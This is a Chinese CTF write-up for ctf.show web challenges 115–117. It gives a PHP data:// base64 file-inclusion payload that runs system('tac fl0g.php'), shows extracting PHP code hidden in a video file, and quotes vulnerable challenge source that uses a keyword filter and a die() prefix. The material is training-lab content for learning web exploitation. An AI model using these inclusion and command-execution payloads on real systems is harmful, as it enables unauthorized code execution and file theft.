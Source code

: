 对file的参数进行了过滤

可以使用php data协议`?file=data://text/plain;base64,`

来传入`<?php system('tac fl0g.php'); ?>`

传参的时候需要对php代码进行base64编码

编码后的字符串含有等于号，删掉就可以了

payload:

```
http://65b019f9-acd9-46fa-afae-e470af533a11.challenge.ctf.show/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAnKTsgPz4                                               
```

### [web116]

web文件上传+misc

mp4视频下载下来之后，放入010发现末尾又疑似png文件尾

![image-20230712184028670](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230712184028670.png)

顺势搜索png文件头89504E47

![image-20230712184247220](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230712184247220.png)

将这块数据摘取出来，得到php代码
![image-20230712184357238](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230712184357238.png)

浏览器页面无回显，通过bp抓包发现可以读取文件

![image-20230712184752855](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230712184752855.png)

### [web117]绕过die

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: yu22x
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 18:16:59

*/
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```
